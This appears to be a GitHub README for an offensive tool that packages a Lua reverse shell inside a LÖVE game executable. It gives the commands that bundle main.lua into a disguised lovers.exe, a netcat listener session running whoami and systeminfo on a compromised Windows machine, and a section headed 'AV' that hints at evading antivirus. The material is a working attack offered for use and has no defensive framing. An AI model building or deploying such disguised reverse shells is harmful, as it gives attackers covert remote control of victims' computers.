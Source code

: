 # lovers

portable LÖVE (basically packaged lua) reverse shell

https://love2d.org/

Using non-interactive lua reverse shell.
https://gtfobins.github.io/gtfobins/lua/

**Setup**

Deploy https://love2d.org/#download

```
zip -9 -r lovers.love main.lua
cat love.exe lovers.love > lovers.exe
```

```
WOPR@WOPR webassembly % nc -v -l 9999                            
whoami
windev1910eval\user
systeminfo

Host Name:                 WINDEV1910EVAL
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.18362 N/A Build 18362
```

**AV**

Enjoy~
